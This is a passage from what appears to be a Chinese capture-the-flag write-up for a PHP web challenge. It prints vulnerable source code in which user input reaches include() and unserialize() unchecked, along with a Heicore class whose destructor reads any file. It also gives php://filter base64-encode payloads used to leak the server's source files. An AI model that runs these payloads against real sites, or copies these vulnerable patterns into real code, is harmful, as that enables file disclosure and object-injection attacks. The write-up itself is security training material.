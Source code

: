 只有relax.php可访问。查看源码，发现表情包JS，进行解密，发现源码提示如下：

```php
//把变量名称替换了一下子
$a = $_GET['pw'];
$b = $_GET['file'];
$c = $_GET['(><)'];
if(isset($a)&&(file_get_contents($a,'r')==="Two thousand three hundred and thirty-three")){
    echo '<img src="./images/13.jpg" alt=""><br>';
    include($b);
    }else{
        echo '<img src="./images/1.gif" alt="">';
        }
```

看到include，构造包含获取flag，但不可访问。  
转换思路，构造php伪协议获取heicore.php和relax.php的源码，进一步了解程序逻辑。  

```php
//&file=php://filter/read=convert.base64-encode/resource=relax.php  
//relax.php
<?php
error_reporting(E_ALL^E_NOTICE^E_WARNING);
$_ = $_GET['pw'];
$__ = $_GET['file'];
$___ = $_GET['(><)'];

if(isset($_)&&(file_get_contents($_,'r')==="Two thousand three hundred and thirty-three")){
    echo '<img src="./images/13.jpg" alt=""><br>';
    if(preg_match("/flag/i",$__)){
        echo "It's not that simple";
        exit();
    }else{
        include($__);
        unserialize($___);
    }
}else{
    echo '<img src="./images/1.gif" alt="">';
}
?>
//&file=php://filter/read=convert.base64-encode/resource=heicore.php
//heicore.php
<?php
class Heicore{
    public $file;
    public function __destruct(){
        if(isset($this->file)){
            echo file_get_contents($this->file);
        }
    }
}
?>
```
